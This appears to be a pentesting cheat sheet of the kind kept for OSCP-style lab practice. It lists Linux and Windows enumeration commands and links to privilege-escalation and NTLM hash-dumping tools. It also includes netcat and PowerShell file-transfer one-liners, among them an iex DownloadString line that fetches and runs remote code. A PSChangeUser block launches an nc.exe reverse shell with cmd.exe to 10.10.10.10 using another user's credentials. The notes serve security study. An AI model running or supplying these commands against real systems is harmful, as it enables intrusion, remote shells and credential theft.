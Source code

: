 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files    
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  

File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "C:\Users\Public\Documents\file.exe")   

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  
stty rows 56 columns 213  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html  //SQLTips  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/  //MoreSQL

